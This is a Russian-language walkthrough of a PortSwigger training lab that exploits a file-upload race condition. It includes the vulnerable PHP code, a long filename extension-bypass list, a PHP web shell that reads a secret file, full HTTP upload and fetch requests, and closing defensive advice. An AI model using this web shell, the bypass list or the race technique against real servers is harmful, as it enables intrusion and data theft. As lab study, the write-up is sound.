









expert
### Использование условий гонки загрузки файлов
Современные системы , kак правило, не загружают файлы непосредственно в предполагаемое место назначения в файловой системе. Вместо этого они принимают меры предосторожности, такие как загрузка во временный каталог в песочнице и рандомизация имени, чтобы избежать перезаписи существующих файлов. Затем они проводят проверку этого временного файла и передают его в пункт назначения только после того, как это будет признано безопасным.

Тем не менее, разработчики иногда реализуют собственную обработку загрузки файлов независимо от любого фреймворка. Это не только довольно сложно сделать, но и может привести к опасным условиям гонки, которые позволяют злоумышленнику полностью обойти даже самую надежную проверку.

Например, некоторые веб-сайты загружают файл непосредственно в основную файловую систему, а затем удаляют его снова, если он не проходит проверку. Такое поведение характерно для веб-сайтов, которые полагаются на антивирусное программное обеспечение и тому подобное для проверки на наличие вредоносных программ. Это может занять всего несколько миллисекунд, но за короткое время существования файла на сервере злоумышленник потенциально может его выполнить.

Эти уязвимости часто чрезвычайно тонкие, что затрудняет их обнаружение во время тестирования черного ящика, если вы не можете найти способ утечки соответствующего исходного кода

------------

#### Загрузка веб-оболочки через race condition
лаба https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

система выполняет надежную проверку любых загружаемых файлов

задание:  через веб шел стырить файл /home/carlos/secret

подсказка
```php

<?php $target_dir = "avatars/"; $target_file = $target_dir . $_FILES["avatar"]["name"]; // temporary move 

move_uploaded_file($_FILES["avatar"]["tmp_name"],$target_file); 

if (checkViruses($target_file) && checkFileType($target_file)) { 
echo "The file ". htmlspecialchars( $target_file). " has been uploaded."; 

} else { 

unlink($target_file); 

echo "Sorry, there was an error uploading your file."; 

http_response_code(403); 

} 


function checkViruses($fileName) { // checking for viruses ... } 


function checkFileType($fileName) { 
$imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION)); 

if($imageFileType != "jpg" && $imageFileType != "png") { 
echo "Sorry, only JPG & PNG files are allowed\n"; 

return false; 
} else { 
return true; 
} 
} 

?>
```


-------


на сайте - есть форму для загрузки картинок




не поддерживает svg 
`Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.`
только  JPG & PNG


-------

У каждого формата файлов есть уникальная сигнатура в начале. Например:

- JPEG начинается с байтов `FF D8 FF`
    
- PNG начинается с `PNG`
    
- GIF начинается с `GIF87a` или `GIF89a`

------
я загрузил тут картинку типа PNG

вот так выглядит начало запроса




четко видно что файл начинается с png


между ними 385 тыс символов

вот конец запроса





ну а вот так - могу обратно скачать файл с сервера


```http
GET /files/avatars/xssutt.png HTTP/2
Host: 0ac700810332934e83979b1d008d00bd.web-security-academy.net
Cookie: session=rzG2VeX2liDZdv8BrVFkwKMUVLsoPAiD
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ac700810332934e83979b1d008d00bd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```


-------

пробую прокинуть веб шел через php
`<?php echo file_get_contents('/home/carlos/secret'); ?>`
буду пробовать его подсунуть или в  метаданные или между ними и бинарщиной

но сначала нужно задать ему правильное расширение

так как вот это 
`Content-Disposition: form-data; name="avatar"; filename="xssutt.php"`
блокируется!

```c

.png разрешен

--------
xssutt.php  - блокировка 403

ЗАПУСКАЮ ТУРБО ИНТРУДЕР!!!!!!


-----------

.php.png  
.php..png  
.php...png  
.php....png  
.php..png  
.php/.png  
.php:.png  
.php;.png  
.php.png.  
.php..png.  
.php.png..  
.php .png  
.php .png  
.php%20.png  
.php%0a.png  
.php%0d.png  
.php%0d%0a.png  
.php%09.png  
.php%00.png  
.php%0a%0d.png  
.php%20%20.png  
%2Ephp.png  
%2E%70%68%70.png  
.%70%68%70.png  
%2ephp%2epng  
%2ephp.%70ng  
%2ephp%2e%70%6e%67  
%252ephp.png  
%252e%2570%2568%2570.png  
.php%00.png  
.php%00.png.  
.php%00.png%00  
%00.php.png  
.png.php%00  
.php.png%00  
.php.png.php  
.png.php.png  
.php.png.png.php  
.png.php.php.png  
.php.php.png  
.png.png.php  
.php..png.php  
.php.png..php  
.pHP.png  
.Php.png  
.PHP.png  
.pHp.png  
.PhP.png  
.php.PNG  
.php.Png  
.php.pNG  
.php;.png  
.php, .png  
.php;.png;  
.php;.png.  
.php;;.png  
.php;.png;.php  
.php\.png  
.php\\.png  
.php\\\\.png  
.php\png  
.php\png  
.%c0%ae.php.png  
.%c4%ae.php.png  
.%e5%98%8e.php.png  
.％70％68％70.png  
.ｐｈｐ.png  
.рһр.png  
.%ef%bc%8e%ef%bd%90%ef%bd%88%ef%bd%90.png  
.php%c0%ae.png  
.php%c4%ae.png  
.php%e5%98%8e.png  
.php%c0%ae%c0%ae%c0%af.png  
.php%e2%80%ae.png  
.htaccess.png  
.htaccess.php.png  
.php.htaccess.png  
.htaccess.  
.htaccess.php  
.htaccess.gif  
.htaccess.png.gif  
.php:.png  
.php::$DATA.png  
.php::$DATA  
.png::$DATA.php  
.php.png::$DATA  
.php. .png  
.php .png  
.php\t.png  
.php\n.png  
.php\r.png  
.php\f.png  
.php\v.png  
very_very_long_name_that_might_cause_buffer_overflow.php.png  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png  
.php/.png  
.php\.png  
.php/./.png  
.php/../.png  
.php?anything=.png  
.php#.png  
.php".png  
.php'.png  
.php).png  
.php(.png  
.php[.png  
.php].png  
.pht.png  
.phar.png  
.phps.png  
.phtml.png  
.php3.png  
.php4.png  
.php5.png  
.php7.png  
.phP.png  
.pHp.png  
.pHt.png  
.php\x00.png  
.php\xff.png  
.php\x00\x00.png  
.php%ff.png  
.php%00%00.png  
.php.png;.php  
.png.php.;.php  
.php..png.;.php  
.php%00.png.;.php  
.php.png%00;.php  
.php.;.png.;.php

```
сработало очень много вариантов, теперь вручную попробую найти




--------

пробую теперь вручную подобрать что-то , паралельно размещая пейлоад
`<?php echo file_get_contents('/home/carlos/secret'); ?>`
в коде изображения

но если ничего не получиться - то можно будет попробовать через  htaccess

----------
вот так идет у меня процесс тестирования, я поставил пейлоад в разные места в коде запроса
и меняю пейлоады для Content-Disposition




и потом смотрю ответ




---------

также я заметил странность!!!

1 я проверяю все пейлоады которые дают ответ 200

некоторые пейлоады , после загрузки файла, я могу открыть файл

но некоторые после успешной загрузки не открываются!!

вот пример:

пейлоад
`Content-Disposition: form-data; name="avatar"; filename="xssutt.php%0d%0a.png"`
загружается успешно с ответом 200 `The file avatars/xssutt.php%0d%0a.png has been uploaded.`

но когда я пытаюсь его получить - скачать , то овтет 404 не найдено!! 
The requested URL was not found on this server


то есть это странно,,, некоторые файлы,  учпешно загруженные, я могу скачать, а некоторые нет, они исчезают

то есть - можно предположить, что  сервер сначала загружает код файла, и если считает его вредоносным - то удаляет!!!
значит моя обфускация `.php%0d%0a.png`  сработала - изменив расширение файла, и при этом внутри файла был пейлоад вредоносный!

------
по названию лабы понятно , что можно сделать гонку данных!!

я так думаю, что можно запустить оба запроса паралельно!

запрос на отправку картинки+ запрос на получение картинки, и возможно получиться попасть в окно, когда сервер еще не проверил код на вредоносность! но при этом - успейть выполнить скрипт!

------

готовлю запросы!!


первый пейлоад загружает картинку
```http
POST /my-account/avatar HTTP/2
Host: 0ac700810332934e83979b1d008d00bd.web-security-academy.net
Cookie: session=rzG2VeX2liDZdv8BrVFkwKMUVLsoPAiD
Content-Length: 5561
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ac700810332934e83979b1d008d00bd.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTRI8TGgiXQinv2FZ
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac700810332934e83979b1d008d00bd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryTRI8TGgiXQinv2FZ
Content-Disposition: form-data; name="avatar"; filename="xssutt.php%0d%0a.png"
Content-Type: image/png

‰PNG
<?php echo file_get_contents('/home/carlos/secret'); ?>

далее идет бинарный код картинки!
```

второй запрос  тупо скачивает файл обратно 

```http
GET /files/avatars/xssutt.php%0d%0a.png HTTP/2
Host: 0ac700810332934e83979b1d008d00bd.web-security-academy.net
Cookie: session=rzG2VeX2liDZdv8BrVFkwKMUVLsoPAiD
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ac700810332934e83979b1d008d00bd.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=2, i


```

обьединяю это все дело в одну группу




и добавляю побольше таких запросов!!

вот так - и запускаю паралельную атаку -  чтобы сервер прикурил там бамбука немного!




--------
результат успеха не дал, поэтому меняю пейлоад с `.php%0d%0a.png`  на другой
и все по новой!!!

ну дабы не перебирать кучу вариантов с пейлоадами, я чуть подсмотрел в решение
и там чказано, ччто обфускация не нужна и можно напрямую ставит расширение `.php` хоть даже оно и блокируется

ну ладно, пробую!!

акуеть....
получилось...
вот флаг!  3BVhuMF2ShRUdqkcY8w7aY2CpnKfUV4W

хаха - магия ))

короче, я сделал все тоже самое что и выше, только не пытался обфусцировать расширение и просто напросто сделал 
вот так: `Content-Disposition: form-data; name="avatar"; filename="chackHUIAK.php"`

ну и второй запрос на скачивание вот так : `GET /files/avatars/chackHUIAK.php HTTP/2`
и запустил атаку  SINGLE-PACKET-ATTACK - то есть одим разом все!! и сервер получил за раз кучу запросов!
38 запросов я сделал, чередуя (загрузка-скачивание...итд)




вот флаг!  3BVhuMF2ShRUdqkcY8w7aY2CpnKfUV4W

лаба решена!!


------
## выводы по лабе Race Condition

сервер делал фатальную ошибку - сначала сохранял файл, а потом проверял его  

я заметил, что некоторые файлы - получается загрузить - но скачать потом- нет!
это может говорить о том, что между загрузкой и скачиванием может происходить проверка файла!
и потом, из-за блокировки - файл удалялся!

##### почему это сработало  
1 архитектура "сначала сохрани, потом проверь" всегда опасна  
2 проверка файлов занимает время, даже если это миллисекунды  
3 обфускация расширения тут была не нужна - файл с .php все равно сохранялся перед удалением  
4 single-packet attack позволил отправить кучу запросов почти одновременно и перегрузить сервер  
5 между запросами не было задержки, что увеличило шанс попасть в окно

### что по защите

никогда не сохранять файлы в доступную директорию до их проверки  

сначала валидировать файл во временной изолированной папке, и только после всех проверок перемещай в публичную  

использовать  атомарные операции - проверка и перемещение должны быть одним действием  

если используют антивирус, то делать это до сохранения в веб-доступную папку  

рандомизировать имена файлов и храни их вне веб-рута, отдавать через скрипт-прослойку  

и как всегда = >>> никогда не доверяй пользовательским файлам, даже на долю секунды

по сути - в реальности, можно и не понять, что такая уязвимость есть, пока не попробовать гонку данных,
но при это перебарщивать нельзя, так как можно завалить сервер и получить писды!!!